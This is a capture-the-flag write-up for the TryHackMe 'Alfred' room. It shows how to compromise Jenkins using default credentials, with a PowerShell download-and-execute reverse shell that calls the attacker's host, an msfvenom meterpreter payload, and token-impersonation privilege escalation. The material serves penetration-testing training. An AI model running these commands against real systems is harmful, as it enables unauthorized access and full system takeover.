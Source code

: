 ```yaml
---
title: "TryHackMe-Alfred" 
layout: post
date: 2020-04-30 21:12
tag:
- Windows
- Meterpreter
- Privilege Escalation
image: /assets/images/pictures/Alfred/Alfred.png
headerImage: true
category: blog
author: DeShaun Ormond
readtime: 5 minutes
---
```


Another common OSCP exam machine, in this Batman themed room, exploit Jenkins by getting a shell with powershell, then escalate your privileges by exploiting Windows authentication tokens.

You can access this room here: [Alfred](https://tryhackme.com/room/alfred)


__This room requires a TryHackMe subscription to join__

## Table of Contents

- [Task 1: Initial Access](#initial-access)
- [Task 2: Switching Shells](#switching-shells)
- [Task 3: Privilege Escalation](#privilege-escalation)


### Initial Access

**Let's Begin!**


**Question 1: How many ports are open?**
  
Deploy the box and run a nmap scan! Since the box doesnt respond to ping scans include the -Pn tag. 

~~~
nmap -sC -sV <boxip> -Pn 
~~~

10.10.51.179


 ![nmap_scan](/pictures/Alfred/nmap.png)

Our nmap scan shows 3 ports running on this box. Therefore we have our first answer. 

{: .box-success}
**Flag 1 :** X 

**Quesiton 2: What is the username and password for the log in panel(in the format username:password)**

From the nmap scan we see that we have two http services running. Navigate to the webserver on port 8080. You will see a login page. what are the chances that the manager didnt change the default credentials... let's try admin for both username and password

![admin](/pictures/Alfred/adminlogin.png)

We are in and we found our next flag! 

 {: .box-success}
**Flag=** admin:admin


**Question 3: Find a feature of the tool that allows you to execute commands on the underlying system. When you find this feature, you can use this command to get the reverse shell on your machine and then run it** 

The next question tells us to look for a tool that allows us to execute commands. After some clicking and snooping around you will find a place where you can input commands. 

![flag3](/pictures/Alfred/projectbuild.png)

Replace 'whoami' with the command below and click apply and save. 
~~~
powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port 1234
~~~

Before we go any further, set up a netcat listening sesison on the port you have chosen above. 
~~~
nc -lnvp <1234>
~~~

 Then if you have not already you will need to download Nishang's Invoke PowerShellTcp script. 

```
https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1 

```

You also need to start up a web server, python allows for us to do this easily buy just running a simple command:

~~~
python3 -m http.server 
~~~

![httpserver](/pictures/Alfred/python-httpserver.png)


All together your terminals should look like this:

![tmux](/pictures/Alfred/tmux0.png)


Once you have the Powershell Script downloaded and the http server running navigate back to the project menu and select build. 

![build](/pictures/Alfred/Build.png)

Go back to your terminal and you should see on the python http server the victim ip reaching out and getting our Powershell script. Along with a shell opening up on your listening shell! 

![tmux1](/pictures/Alfred/tmux.png)

Once you are in, navigate to bill's Desktop directory and obtain the flag. 

~~~
PS C:\Users\bruce\Desktop> type user txt
~~~

{: .box-success}
**Flag:** XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX


### Switching Shells

The next task instructs us to switch to a meterpreter shell to allow for easier privilege escalation. They give us a command to create a windows meterpreter revese shell to use. 

~~~
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder 
      x86/shikata_ga_nai LHOST=<IP> LPORT=5555 -f exe -o alfred.exe
~~~

Open a new terminal and run the command above. I set the listening port on port 5555 and set the shell name to alfred.exe. Download that and you get our only flag

![msfvenom](/pictures/Alfred/msfvenom.png)

{: .box-success}
**Flag:** XXXXX

Open up another listening session for port 5555
~~~
nc -lnvp 5555
~~~

Looking back at the room, it tells us also to create a payload to upload to the victim's machine. We will enter this in the same place we entered the last place where we entered the commands on the website. 

~~~
powershell "(New-Object System.Net.WebClient).Downloadfile('http://<ip>:8000/alfred.exe','alfred.exe')"
~~~

Once you have saved and applied the new changes, navigate back to the projects page and select 'Build'. 

You may have to cancel the previous exploit, which will kick you out. Don't worry! Run the command and then re-run task 1 to get back in. 

![build](/pictures/Alfred/Build.png)


Once you get back in, you should see alfred.exe in your current directory. and run the command: 

```
Start-Process alfred.exe
```
This should spawn a meterpreter shell on your newest listening shell! 


### Privilege Escalation


"Now that we have initial access, let's use token impersonation to gain system access." 


Read the information on Windows tokens then come back when you are ready to move one. 

**Question 1: View all the privileges using whomai /priv**

In your first shell run the command: 

~~~
'whoami /priv' 
~~~
![priv](/pictures/Alfred/privilege.png)

We see two of the most commonly abused privileges are enbabled! In your metasploit shell enter the command: 

~~~
load incognito
list_tokens -g
~~~

"Load incognito" will allow us to exploit this vulnerability and "list_tokens -g" will show us which tokens are available. Once we see which tokens are avaliable we can impersonate the one with the highest privilege "BUILTIN\Adminstrators" 

![incognito](/pictures/Alfred/task3-2.png)

![impersonate](/pictures/Alfred/Task3-flag3.png)

```
Run getuid command to get the next flag
```

{: .box-success}
**FLAG: XX XXXXXXXXXXXXXX** 


The last step instructs us to switch process so that we may permissions of a privileged user. Right now we just have elevated privileges. Run the commands below and search for PID for services.exe. 

~~~
meterpreter> ps
~~~

Once you have found the PID number, migrate to the PID to obtain privileged user permissions 

![final flag](/pictures/Alfred/FinalFlag.png)



Congrats!! You have completed this room!  
<p align="center">
  <img src="https://media.giphy.com/media/14iPmDWiwIkyk0/giphy.gif">
</p>

 
